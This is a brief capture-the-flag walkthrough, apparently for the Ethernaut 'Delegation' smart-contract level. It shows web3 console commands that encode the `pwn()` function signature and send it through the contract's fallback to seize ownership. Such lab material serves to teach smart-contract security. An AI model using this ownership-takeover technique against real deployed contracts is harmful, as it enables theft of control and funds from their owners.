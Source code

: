 Here contains two contracts, by running contract.abi we can tell it's contract `Delegation`

Looking at the contract, function `pwn` sets the contract owner to `msg.sender`
```
function pwn() public {
    owner = msg.sender;
  }
```
We can get encoded function signature of `pwn` through contract.abi or in console:
```
signature = web3.eth.abi.encodeFunctionSignature("pwn()")
```

Take over contract ownership:
```
contract.sendTransaction({ from: player, data: signature })
```

Verify contract owner:
```
contract.owner()
```
